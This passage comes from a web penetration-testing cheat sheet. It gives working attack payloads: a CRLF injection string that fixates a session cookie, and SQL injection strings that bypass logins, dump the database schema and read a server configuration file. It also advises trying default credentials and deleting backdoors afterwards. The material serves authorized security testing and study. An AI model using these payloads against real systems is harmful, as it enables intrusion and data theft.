 **Always try null session login (i.e. no password login) or search the Internet for default credentials for a specific web application.**

Try to manipulate cookies to gain access or to elevate privileges.

Try to change an HTTP POST request into an HTTP GET request (i.e. into a query string) and see if server will accept it.

**Always remember to delete your backdoors and other artifacts when you are done!**

**TO DO: HTTP smuggling with `smuggler.py`.**

**TO DO: Social engineering with `httrack` and `setoolkit`.**

### 3.1 Useful Websites

[www.exploit-db.com](https://www.exploit-db.com)

[www.cvedetails.com](https://www.cvedetails.com)

[www.securityfocus.com/vulnerabilities](https://www.securityfocus.com/vulnerabilities)

[www.xssed.com](http://www.xssed.com)

### HTTP Response Splitting

Also known as CRLF Injection. CRLF refers to Carriage Return (ASCII 13, `\r`) Line Feed (ASCII 10, `\n`).

Fixate a session cookie:

```fundamental
somesite.com/redirect.asp?origin=somesite.com%0D%0ASet-Cookie:%20ASPSESSION=123456789
```

When encoded, `\r` refers to `%0D` and `\n` refers to `%0A`.

### Cross-Site Scripting

Find out more about reflected and stored XSS attacks from my other [project](https://github.com/ivan-sincek/xss-catcher).

### SQL Injection

Try to produce database errors by injecting a single-quote, back-slash, double-hyphen, forward-slash or period.

The following examples were tested on MySQL database.

Boolean-based SQLi:

```fundamental
' OR 1=1-- 
```

**Note that MySQL requires a space between the comment symbol and the next character.**

Union-based SQLi:

```fundamental
' UNION SELECT 1, 2, 3, 4-- 

' UNION SELECT 1, concat_ws(' | ', database(), current_user(), version()), 3, 4-- 

' UNION SELECT 1, concat_ws(' | ', table_schema, table_name, column_name, data_type, character_maximum_length), 3, 4 FROM information_schema.columns-- 

' UNION SELECT 1, load_file('..\\..\\apache\\conf\\httpd.conf'), 3, 4-- 
```
